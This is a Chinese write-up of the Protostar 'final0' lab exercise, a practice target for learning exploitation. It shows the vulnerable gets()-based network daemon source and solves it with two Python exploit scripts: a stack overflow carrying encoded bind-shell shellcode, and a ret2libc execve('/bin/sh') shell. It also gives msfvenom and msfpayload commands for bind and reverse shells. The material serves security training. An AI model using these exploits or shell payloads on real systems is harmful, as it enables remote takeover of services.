# final0

## （一） 题目：

\#include "../common/common.c"

\#define NAME "final0"

\#define UID 0

\#define GID 0

\#define PORT 2995

/\*

\* Read the username in from the network

\*/

char \*get\_username\(\)

{

char buffer\[512\];

char \*q;

int i;

memset\(buffer, 0, sizeof\(buffer\)\);

gets\(buffer\);

/\* Strip off trailing new line characters \*/

q = strchr\(buffer, '\n'\);

if\(q\) \*q = 0;

q = strchr\(buffer, '\r'\);

if\(q\) \*q = 0;

/\* Convert to lower case \*/

for\(i = 0; i &lt; strlen\(buffer\); i++\) {

```
  buffer\[i\] = toupper\(buffer\[i\]\);
```

}

/\* Duplicate the string and return it \*/

return strdup\(buffer\);

}

int main\(int argc, char \*\*argv, char \*\*envp\)

{

int fd;

char \*username;

/\* Run the process as a daemon \*/

background\_process\(NAME, UID, GID\);

/\* Wait for socket activity and return \*/

fd = serve\_forever\(PORT\);

/\* Set the client socket to STDIN, STDOUT, and STDERR \*/

set\_io\(fd\);

username = get\_username\(\);

printf\("No such user %s\n", username\);

}

## （二）解题过程：

这道题比较简单，就是一个栈溢出，覆盖ret地址。

方法如下：

1）使用pattern\_create.rb工具定位，找到溢出点偏移位置

2）构造buffer溢出脚本，在偏移位置后面加 ret地址，用gdb调试看出错位置是不是这里

3）加shellcode

![](/png/90.png)

主要难点是shellcode的生成方法

msfvenom

msfpayload

\#msfpayload linux/x86/shell\_bind\_tcp R \| msfencode -b '\x00\xff\x0d\x0a' -e x86/shikata\_ga\_nai -t c

\#!/usr/bin/python

from socket import \*

from struct import \*

s = socket\(AF\_INET, SOCK\_STREAM\)

s.connect\(\("192.168.0.71", 2995\)\)

buffer = "a"\*532

ret = "\xEF\xBE\xAD\xDE"

nop = "\x90"\*20

\#msfpayload linux/x86/shell\_bind\_tcp R \| msfencode -b '\x00\xff\x0d\x0a' -e x86/shikata\_ga\_nai -t c

shellcode = "\xba\x5f\x74\xd6\x3c\xdb\xcd\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"\

"\x14\x31\x56\x14\x03\x56\x14\x83\xc6\x04\xbd\x81\xe7\xe7\xb6"\

"\x89\x5b\x5b\x6b\x24\x5e\xd2\x6a\x08\x38\x29\xec\x32\x9b\xe3"\

"\x84\xc6\x23\x15\x08\xad\x33\x44\xe0\xb8\xd5\x0c\x66\xe3\xd8"\

"\x51\xef\x52\xe7\xe2\xeb\xe4\x81\xc9\x73\x47\xfe\xb4\xbe\xc8"\

"\x6d\x61\x2a\xf6\xc9\x5f\x2a\x41\x93\xa7\x42\x7d\x4c\x2b\xfa"\

"\xe9\xbd\xa9\x93\x87\x48\xce\x33\x0b\xc2\xf0\x03\xa0\x19\x72"

s.send\(buffer + ret + nop + shellcode\)

![](/png/91.png)

方法2： 另一种做法就是ret2libc的方法也可以实现（推荐）

写出的exploit比较稳定，不存在找不到shellcode入口地方。

from socket import \*

from struct import \*

import telnetlib

host = '10.14.110.37'

port = 2995

s = socket\(AF\_INET, SOCK\_STREAM\)

s.connect\(\(host,port\)\)

pad = 'a'\*510+'\x00'+'b'\*21

execve = pack\("I", 0x08048c0c\)

binsh = pack\("I",0xb7e97000+1176511\)

exp = pad + execve + "AAAA" + binsh + "\x00"\*8

s.send\(exp+'\n'\)

s.send\("id\n"\)

print s.recv\(1024\)

t = telnetlib.Telnet\(\)

t.sock = s

t.interact\(\)

运行结果如下：

![](/png/92.png)

生成shellcode方法：

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.184.1 LPORT=4444 -a x86 --platform linux -b '\x00\x0a\x0d' -f python
```

```
# Found 10 compatible encoders
```

\#msfpayload linux/x86/shell\_bind\_tcp R \| msfencode -b '\x00\xff\x0d\x0a' -e x86/shikata\_ga\_nai -t c

第三种方法 ret2text

[http://www.pwntester.com/blog/2013/12/26/protostar-final0-3-write-ups/](http://www.pwntester.com/blog/2013/12/26/protostar-final0-3-write-ups/)

ref:

[http://www.voidcn.com/article/p-dnsxpzhd-xo.html](http://www.voidcn.com/article/p-dnsxpzhd-xo.html)

[https://www.freebuf.com/news/182894.html](https://www.freebuf.com/news/182894.html)

[http://www.atomsec.org/游戏/protostar-final0-write-up/](http://www.atomsec.org/游戏/protostar-final0-write-up/)        \(推荐）

[https://bbs.pediy.com/thread-191433.htm](https://bbs.pediy.com/thread-191433.htm)

[http://shell-storm.org/shellcode/files/shellcode-836.php](http://shell-storm.org/shellcode/files/shellcode-836.php)

